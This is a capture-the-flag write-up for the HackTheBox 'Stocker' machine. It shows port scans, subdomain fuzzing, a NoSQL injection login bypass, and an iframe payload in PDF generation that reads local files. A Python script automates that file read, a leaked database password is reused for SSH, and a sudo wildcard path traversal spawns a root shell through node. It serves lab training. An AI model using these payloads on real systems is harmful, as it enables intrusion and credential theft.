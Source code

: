 ```yaml
---
layout: single
title: Stocker hackthebox writeup
excerpt: "Easy linux machine in which we find a subdomain, bypass a login, get LFI thanks to XSS and escalate privileges via missconfiguration"
date: 2023-01-17
classes: wide
header:
  teaser: /assets/images/stocker/stocker_icon.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - writeup
tags:
  - hackthebox
  - fuzzing
  - NoSQL injection
  - XSS
  - LFI
  - sudo
---
```


![](/assets/images/stocker/stocker.png)

## User Flag

The usual port scan gives us the usual information

```shell
$ nmap -sS -n -Pn --min-rate 5000 -p- -vv -oN allports 10.129.134.26
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Nevertheless, it's essential to do an in-depth port scan.

```shell
$ nmap -sCV -vv -p22,80 -oN targeted 10.129.134.26
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
...
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://stocker.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port number 80 is redirecting us to stocker.htb so let's just add that to `/etc/hosts`. The website is just a normal static site. However, The *we're still actively developing* sentence makes me think there may be some virtual host thus I started fuzzing.


```shell
$ ffuf -w ~/wordlist/subdomains-UPDATED.txt -u http://stocker.htb -fs 178 -H 'Host: FUZZ.stocker.htb' -v


        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://stocker.htb
 :: Wordlist         : FUZZ: /home/dasor/wordlist/subdomains-UPDATED.txt
 :: Header           : Host: FUZZ.stocker.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 178
________________________________________________

[Status: 302, Size: 28, Words: 4, Lines: 1]
| URL | http://stocker.htb
| --> | /login
    * FUZZ: dev
```

It seems my intuition was correct! let's add this to `/etc/hosts`. Ok, now we have a login page thus is time to bypass it. Neither SQL injection nor LDAP injection worked so I tried NoSQL injection. Taking a look at Hacktricks payloads I found [this one](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass) worked. Just intercept the request with burpsuite, change the `Content-Type` to `application/json` and bypass the login.

Now we are against a shop that generates a pdf of our order. Again if you intercept the request with burpsuite you can see how JSON is being sent, this seems like a great attack vector. We have the ability to change the value of the parameters as we please, so I tested a basic HTML injection like `<h1>Test</h1>` and fairly enough it worked. Now we may be able to get LFI thanks to the XSS. By using a payload like this `<iframe width=800 height=800 src=file:///etc/passwd></iframe>` we get local file inclusion. The width and height parameters are important so the file can be seen completely. We can see the only user is called **angoose**

At this point, I tried to expose the source code of the website by creating a python script to automate the LFI process and also creating a small wordlist.


```python
#!/usr/bin/python3

import requests
import sys
import urllib.parse


def send_data(wordlist):
    # convert to list
    url = 'http://dev.stocker.htb/login'
    ## send json data to the server
    data = {"username": {"$ne": "toto"}, "password": {"$ne": "too" }}
    r = requests.post(url, json=data, allow_redirects=False)
    cookie = r.headers['Set-Cookie']
    cookie = cookie[:cookie.find(';')]
    f = open(wordlist, 'r')
    for line in f:
        url = "http://dev.stocker.htb/api/order"
        line = line[:-1]
        lfi = "<iframe width=800 height=800 src=file:///" + line
        lfi = lfi + "></iframe>"
        data = {"basket":[{"_id":"638f116eeb060210cbd83a8d","title":lfi,"image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
        r = requests.post(url, json=data, headers={'Cookie': cookie})
        pdf_id = r.text[r.text.find('6') : r.text.rfind('"')]
        url = "http://dev.stocker.htb/api/po/" + pdf_id
        r = requests.get(url, headers={'Cookie': cookie})
        if len(r.text) != 35267:
            print("[+] file: " + line)
            print("          id:" + pdf_id)

if __name__ == '__main__':
    send_data(sys.argv[1])
```

and the wordlist

```shell
/var/www/html/index.html
/var/www/html/index.js
/var/www/html/dev/index.js
/var/www/html/dev/index.html
/var/www/dev/index.html
/var/www/dev/index.js
```

Then I ran the script

```shell
$ ./stocker.py custom_wordlist
[+] file: /var/www/html/index.html
          id:63c6b10fa675cbb8a7a15007
[+] file: /var/www/dev/index.js
          id:63c6b117a675cbb8a7a15020
```

In the second file, we can find a string with credentials

```
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";
```

If we try to log in via ssh

```shell
$ ssh angoose@stocker.htb
angoose@stocker.htb's password:

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

angoose@stocker:~$
```

Great we have the user flag!

## Root flag

The first thing I always do to privesc is check `sudo -l` and this time it has some interesting information.


```shell
angoose@stocker:~$ sudo -l
[sudo] password for angoose:
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js

```

Now I have to admit, I got stuck a little here, but by just thinking about it for a bit I came up with the solution. It is actually very simple, if you think a bit out of the box and remember the strict meaning of the wildcard `*` then it's done. Basically, that line does not mean that you can only execute the javascript files inside `/usr/local/scripts` , it means you can execute every javascript file on the system. This is because the wildcard can be everything including `../`.

Then I just created a `.js` file with these contents and got root.

```shell
angoose@stocker:~$ cat privesc.js
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
angoose@stocker:~$ sudo node /usr/local/scripts/../../../../home/angoose/privesc.js
# whoami
root
#
```

That is all, thanks for reading!
